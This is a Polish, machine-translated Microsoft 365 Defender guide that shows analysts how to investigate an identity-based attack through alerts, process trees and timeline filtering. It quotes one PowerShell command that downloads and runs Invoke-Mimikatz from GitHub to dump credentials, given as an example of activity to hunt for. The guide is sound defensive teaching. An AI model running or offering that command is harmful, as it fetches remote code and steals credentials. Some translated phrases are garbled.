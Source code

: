 ```yaml
---
title: Przykładowy atak oparty na tożsamości
description: Przesuń się przez przykładową analizę ataków opartych na tożsamości.
keywords: zdarzenia, alerty, badanie, korelacja, atak, komputery, urządzenia, użytkownicy, tożsamości, tożsamość, skrzynka pocztowa, poczta e-mail, 365, microsoft, m365, reagowanie na incydenty, cyberataki
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 883c0480b5f8cb35abfe59458d35c8d1274b8493
ms.sourcegitcommit: bdd6ffc6ebe4e6cb212ab22793d9513dae6d798c
ms.translationtype: MT
ms.contentlocale: pl-PL
ms.lasthandoff: 03/08/2022
ms.locfileid: "63327540"
---
```

# <a name="example-of-an-identity-based-attack"></a>Przykładowy atak oparty na tożsamości

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Dotyczy:**
- Microsoft 365 Defender

Usługa Microsoft Defender for Identity może pomóc w wykryciu złośliwych prób naruszenia tożsamości w organizacji. Ponieważ program Defender for Identity jest zintegrowany z programem Microsoft 365 Defender, analitycy zabezpieczeń mogą mieć wgląd w zagrożenia pochodzące z usługi Defender for Identity, takie jak podejrzewane próby podwyższenia uprawnień użytkownika Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analizowanie ataków w programie Microsoft Defender dla tożsamości

Microsoft 365 Defender umożliwia analitykom filtrowanie alertów przez wykrywanie źródła na karcie **Alerty** na stronie zdarzeń. W poniższym przykładzie źródło wykrywania jest filtrowane do usługi **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Przykład filtrowania źródła wykrywania dla usługi Defender for Identity.":::

Wybranie **alertu o podejrzeniu** o przemięcie przez skrót powoduje wyświetlenie strony w programie Microsoft Defender dla aplikacji w chmurze, która zawiera bardziej szczegółowe informacje. Zawsze możesz dowiedzieć się więcej o alertach lub atakach, wybierając pozycję Dowiedz się więcej o tym typie **alertu**, aby przeczytać opis ataków oraz sugestie dotyczące środków zaradczych.[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Przykładowy alert o podejrzeniu o przeoczycie krzyżyka."::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Badanie tego samego ataku w programie Microsoft Defender dla punktu końcowego

Alternatywnie analityk może użyć usługi Defender for Endpoint, aby dowiedzieć się więcej o aktywności w punkcie końcowym. Wybierz zdarzenie z kolejki zdarzeń, a następnie wybierz **kartę Alerty** . W tym miejscu także mogą zidentyfikować źródło wykrywania. Źródło wykrywania oznaczone jako EDR oznacza Endpoint Detection and Response (Wykrywanie punktu końcowego i odpowiedzi), czyli Defender for Endpoint (Punkt końcowy). W tym miejscu analityk wybiera alert wykryty przez EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Przykład wykrywania punktu końcowego i odpowiedzi w programie Defender for Endpoint."::: 

Na stronie alertu są wyświetlane różne istotne informacje, takie jak nazwa urządzenia, nazwa użytkownika, stan automatycznego badania i szczegóły alertu. Historia alertów przedstawia wizualną reprezentację drzewa procesu. Drzewo procesu jest hierarchiczną reprezentacją procesów nadrzędnych i podrzędnych powiązanych z alertem.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Przykład drzewa procesu alertu w programie Defender dla punktu końcowego."::: 

Każdy proces można rozwinąć, aby wyświetlić dodatkowe szczegóły. Szczegóły, które może zobaczyć analityk, to rzeczywiste polecenia wprowadzone w ramach złośliwego skryptu, adresy IP połączeń wychodzących i inne przydatne informacje.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Example of process details in Defender for Endpoint.":::
 
Wybierając pozycję **Zobacz na osi czasu**, analityk może jeszcze bardziej przejść do szczegółów w celu określenia dokładnego czasu naruszenia. 

Program Microsoft Defender for Endpoint może wykrywać wiele złośliwych plików i skryptów. Jednak z powodu wielu legalnych zastosowań połączeń wychodzących, programu PowerShell i działań w wierszu polecenia niektóre działania będą uznawane za ważne do czasu, aż zostanie w wyniku tego złośliwy plik lub działanie. Dlatego korzystanie z osi czasu ułatwia analitykom stosowanie alertu w kontekście otaczającego go działania w celu określenia pierwotnego źródła lub czasu ataków, które w innym przypadku jest przesłonięte przez wspólny system plików i działania użytkowników. 

W tym celu analityk uruchamiał się w momencie wykrywania alertu (na czerwono) i przewijał w dół w czasie, aby ustalić, kiedy pierwotne działanie, które w rzeczywistości spowodowało złośliwe działanie. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Przykład rozpoczynania w momencie wykrywania alertu."::: 

Ważne jest zrozumienie i rozróżnienie typowych działań, takich jak połączenia usługi Windows Update Windows, ruch aktywacji zaufanego oprogramowania, inne typowe połączenia z witrynami firmy Microsoft, aktywność internetowa innych firm, działania Microsoft Endpoint Configuration Manager i inne aktywność ekwiązyjna ze względu na podejrzane działania. Można to zrobić za pomocą filtrów osi czasu. Istnieje wiele filtrów, które mogą wyróżniać określone działania podczas odfiltrowania danych, których analityk nie chce wyświetlać. 

Na poniższej ilustracji analityk przefiltrował wyświetlanie tylko zdarzeń sieci i procesów. Pozwala to analitykowi na wyświetlanie połączeń sieciowych i procesów otaczających zdarzenie, w którym Notatnik nawiązył połączenie z adresem IP, co było również widać w drzewie procesu. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Przykład tego, Notatnik połączenia wychodzącego za jego Notatnik."::: 

W tym konkretnym zdarzeniu Notatnik zostało użyte do nawiązaniu złośliwego połączenia wychodzącego. Jednak często atakujący będą po prostu używać oprogramowania iexplorer.exe do nawiązywania połączeń w celu pobrania złośliwego ładowania, ponieważ zwykle iexplorer.exe procesy są traktowane jako zwykła aktywność w przeglądarkach internetowych.

Innym elementem do wyszukiwania na osi czasu będzie program PowerShell używany do połączeń wychodzących. Analityk będzie szukać skutecznych połączeń programu PowerShell z poleceniami `IEX (New-Object Net.Webclient)` , takimi jak połączenia wychodzące z witryną internetową hostującym złośliwy plik. 

W poniższym przykładzie program PowerShell został użyty do pobrania i wykonania mimikatz z witryny internetowej:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analityk może szybko wyszukać słowa kluczowe, wpisując słowo kluczowe na pasku wyszukiwania, aby wyświetlić tylko zdarzenia utworzone za pomocą programu PowerShell. 

## <a name="next-step"></a>Następny krok

Zobacz [ścieżkę badania wyłudzania](first-incident-path-phishing.md) informacji.

## <a name="see-also"></a>Zobacz też

- [Omówienie zdarzeń](incidents-overview.md)
- [Zarządzanie zdarzeniami](manage-incidents.md)
- [Badanie zdarzeń](investigate-incidents.md)
